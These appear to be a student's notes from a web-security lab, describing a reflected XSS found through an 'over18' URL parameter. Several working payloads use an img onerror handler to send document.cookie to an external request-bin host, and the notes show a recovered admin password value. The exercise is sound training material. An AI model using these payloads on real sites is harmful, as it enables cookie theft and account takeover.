 http://websec.vusec.net:63911/93jUDxbw/dumpster.html?vid=3&over18=yes%22%3EEli%20%3Cimg%20src=x%20onerror=fetch(%27https://en7ro7ej230wc.x.pipedream.net%27,{method:%27POST%27,body:document.cookie})%3E

http://websec.vusec.net:63911/93jUDxbw/dumpster.html?vid=3&over18=yes%22%3EEli%20%3Cimg%20src=x%20onerror="this.src='https://en7ro7ej230wc.x.pipedream.net?'+document.cookie">

?pw=supersecureadminpw

- first thought this was an SSRF vuln, because the server will send a request to an URL through the bug report
    - whitelisted with `websec.vusec.net` but can be circumvented with short urls like `https://google.com#websec.vusec.net` -> using tiny.cc this can make the server make a request to requestbin, but not of much use
- then saw that in the source of the GIF dumpster, the `over18` argument is set in the HTML input tag using `.setInnerHTML`. Can let the server render this URL and then execute script -> reflected xss
    - though, `.setInnerHTML` will avoid executing script tags set through it as a prevention measure
        - but can add an image with a non-existent src and then use the `onerror` handler to execute a script: `<img src='x' onerror='alert("yo")'>
            - tried to make the onerror do a fetch to my requestbin with its cookies, but did not work, it does seem to load the image source though
            - then tried to update the image source on error so that the javascript `document.cookie` can be injected: `onerror='this.src=RQBIN.com/?' + document.cookie`
                - this worked, and the web server actually fetches the new source as well, nice
                - it fetched the new source (rqbin) with `?pw=supersecureadminpw`, nice and secure
                    - then use this as the cookie for making a request to /admin.php (which is done by cookiecheck on the first page load in an AJAX request)
                        
- final payload for the bug report form:
http://websec.vusec.net:63911/93jUDxbw/dumpster.html?vid=3&over18=yes%22%3EEli%20%3Cimg%20src=x%20onerror=%22this.src=%27https://en7ro7ej230wc.x.pipedream.net?%27%2Bdocument.cookie%22%3E

